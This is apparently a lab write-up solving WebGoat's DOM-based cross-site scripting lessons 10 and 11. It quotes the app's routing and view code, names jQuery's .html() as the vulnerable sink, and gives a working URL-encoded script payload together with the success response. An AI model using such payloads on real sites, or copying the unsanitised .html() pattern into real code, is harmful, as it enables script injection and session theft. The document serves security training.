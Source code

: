 # (A7) Cross Site Scripting

## Lesson 10 - Identify potential for DOM-Based XSS
The test route is hidden in `js/view/GoatRouter.js`:
```
routes: {
        'welcome': 'welcomeRoute',
        'lesson/:name': 'lessonRoute',
        'lesson/:name/:pageNum': 'lessonPageRoute',
        'test/:param': 'testRoute',
        'reportCard': 'reportCard'
}
...

testRoute: function (param) {
    this.lessonController.testHandler(param);
    //this.menuController.updateMenu(name);
}
```

So the answer is `start.mvc#test/`

## Lesson 11 - Try It! DOM-Based XSS
`testHandler` is located in `js/controller/LessonController.js`:
```
this.testHandler = function(param) {
    console.log('test handler');
    this.lessonContentView.showTestParam(param);
};
```

And in `js/view/LessonContentView.js`:
```
/* for testing */
showTestParam: function (param) {
    this.$el.find('.lesson-content').html('test:' + param);
}
```

`.html()` function is vulnerable to XSS.
 
Use this URL to call the requested method:
```
http://vernjan:8080/WebGoat/start.mvc#test/%3Cscript%3Ewebgoat.customjs.phoneHome%28%29%3C%2Fscript%3E
```
And grab the random number from response:
```
{
  "lessonCompleted" : true,
  "feedback" : "Congratulations. You have successfully completed the assignment.",
  "output" : "phoneHome Response is 1090389950",
  "assignment" : "DOMCrossSiteScripting",
  "attemptWasMade" : true
}
```

